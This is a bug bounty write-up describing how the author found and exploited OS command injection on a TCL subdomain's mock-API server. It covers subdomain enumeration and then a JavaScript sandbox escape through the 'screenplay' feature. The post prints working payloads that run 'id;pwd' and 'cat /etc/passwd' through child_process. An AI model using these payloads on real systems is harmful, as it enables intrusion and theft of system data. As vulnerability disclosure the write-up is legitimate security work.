








## Introduction

I hope all is well and you are in good health. A few months back, I was engaged in the TCL bug bounty program, where I encountered an interesting subdomain operating on an unusual port—3000. Leveraging the JavaScript code parser functionality, I managed to unveil an OS Command injection vulnerability. Join me in the upcoming section as I delve into the details of how I discovered this vulnerability and the methods employed to exploit it.

### Discovery Phase: Unveiling Subdomains through Enumeration

The initial step involved subdomain enumeration using powerful tools like amass and subfinder, configured with the appropriate set of free API keys:

```sh
subfinder -dL targets.txt -all -o subfinder.txt 
amass enum -df targets.txt -config ./myconfigfile.ini -o amass.txt
```

These commands resulted in an extensive list of subdomains. The next crucial step was permutation. Leveraging Gotator and a dedicated permutation wordlist, we aimed to broaden our attack surface. While this process generated a substantial number of subdomains, it's imperative to acknowledge that not all of them may be active. The subsequent task involves resolving and confirming the live status of these subdomains.

## Permutation process explained

Permutation, in the context of subdomain discovery, is the process of systematically iterating through a list of subdomains or a specific subdomain. This is achieved by exploring various combinations made possible with the utilization of a permutation wordlist.

#### Example Flowchart 





In the permutation process, taking **"dev.example.com"** as an example, the system explores various combinations to generate an extensive subdomain wordlist.

After compiling the subdomains, the next crucial step is resolution to filter out unavailable domains. Initially, I used puredns along with a resolvers list from Janmasarik. However, I now employ an extensive resolvers wordlist from Trickest, comprising around 9,000 resolvers, significantly expediting the subdomain resolution process.

```sh
puredns resolve -r resolvers.txt allsubs.txt -w resolved.txt
```

Following subdomain resolution, I utilized HTTPx and a list of potentially interesting ports, ultimately discovering a **server** operating on **port 3000**.


Upon initial inspection, I misconstrued it as a random API documentation page. However, in the upcoming section, I'll delve into the process of how I escalated the situation to command injection.

## Exploitation Phase

Initially, I registered as a regular user by accessing the portal through the **"Login/Register"** option on the homepage.



Following the user registration, I began exploring the functionality by initiating actions at the foundational level, starting with the creation of a new item.





Upon creating a new item, a dashboard opened with my project name. Now, the next step involves adding an interface to delve further into the endpoints or examine the functionality in more detail.





After establishing the interface, the dashboard now presents the following appearance:





A web server had been hosted, but the question remained: where was the code or any functionality to host it? Upon further exploration, I discovered an option called **"screenplay"** in the **Advanced Mock tab** after experimenting with its features.





Within the screenplay functionality, we have the ability to input any JavaScript code, and it will be executed in the mock server. Following research and referencing various sources, I crafted the appropriate JavaScript code:

```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;pwd").toString()
```

The provided JavaScript code executes the **'id'** command and retrieves information about the present working directory.




By modifying the last line of the JavaScript code, we can obtain the contents of /etc/passwd:

```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```

Upon making this change and refreshing the mock server, we successfully retrieved the contents of **/etc/passwd**.




## Conclusion

In my efforts to escalate the issues through a reverse shell, I encountered a roadblock. The JavaScript code was not parsed correctly, and despite my attempts, it remained resilient to reporting.

Thank you for taking the time to read my writeup. Wishing you a great day ahead!